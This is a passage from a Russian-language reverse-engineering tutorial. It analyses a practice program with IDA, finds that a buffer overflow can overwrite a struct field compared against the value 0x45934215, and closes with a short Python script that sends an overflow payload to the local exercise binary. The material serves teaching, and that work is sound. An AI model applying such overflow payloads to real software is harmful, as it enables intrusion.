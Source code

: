 ![](.gitbook/assets/26/36.png)

В последнюю функцию также передается указатель на структуру MyStruct. Давайте переименуем и исправим все.

![](.gitbook/assets/26/37.png)

Там помещается адрес структуры в регистр EAX. Затем используется еще одно поле этой структуры по смещению 0x18.

![](.gitbook/assets/26/38.png)

Мы сравниваем это поле со значением 0x45934215. Давайте переименуем его в cookie. Само поле нигде раньше не изменялось, однако воспользовавшись переполнением буфера мы с легкостью сможем его изменить.

![](.gitbook/assets/26/39.png)

Если результат сравнения положительный - нам выводится сообщение о том, что мы сделали все успешно. Само поле cookie нигде раньше не изменялось, однако воспользовавшись переполнением буфера мы с легкостью сможем его изменить. Давайте взглянем на стек функции main.

![](.gitbook/assets/26/40.png)

Конечно, мы не забыли, что все поля структуры MyStruct находятся внутри объекта pepe. Давайте посмотрим на их размер.

![](.gitbook/assets/26/41.png)

Нам необходимо заполнить Buf 16-ю символами, затем заполнить два двойных слова \(8 байт - 8 символов\) и только после этого мы доберемся до cookie. Пэйлоад будет выглядеть так:
Код \(Text\):

```python
fruta= "A" * 16 + numero + c + cookie
```

Этот скрипт похож на предыдущий, который мы писали ранее:

```python
from subprocess import *
import struct
p = Popen([r'C:\Users\ricna\Documents\Visual Studio 2015\Projects\ConsoleApplication4\Release\ConsoleApplication4.exe', 'f'], stdout=PIPE, stdin=PIPE, stderr=STDOUT)
print "ATACHEA EL DEBUGGER Y APRETA ENTERn"
raw_input()
primera="-1n"
p.stdin.write(primera)
numero=struct.pack("<L",0x1c)
c=struct.pack("<L",0x90909090)
cookie=struct.pack("<L",0x45934215)
fruta= "A" * 16 + numero + c + cookie + "n"
p.stdin.write(fruta)
testresult = p.communicate()[0]
print(testresult)
```
